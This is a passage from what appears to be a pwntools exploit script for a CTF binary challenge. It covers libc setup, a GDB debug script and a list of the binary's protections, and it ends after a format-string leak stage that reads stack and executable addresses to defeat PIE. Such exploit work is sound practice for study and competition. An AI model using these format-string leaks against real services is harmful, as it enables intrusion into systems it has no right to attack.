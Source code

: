 ```python
# ./exploit.py DEBUG NOASLR

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
else:
    library_path = libcdb.download_libraries('./libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('./libc.so.6')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
brva 0x16ab
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No


def send_fmt(payload):
    io.sendafter(b'your input and then exit.\n', payload)

io = start()


###################################
######## Leak Part ################
###################################

payload = flat('%184$lx|%185$lx|%195$lx')
io.sendafter(b'your input again.\n', payload)

io.recvuntil(b'input is:')
io.recvline()

leaked = io.recvline().strip().split(b'|')

rbp_leak    = int(leaked[0], 16) - 0x50 ## 0x50 bytes before leaked address
exe.address = int(leaked[1], 16) - 0x184b
```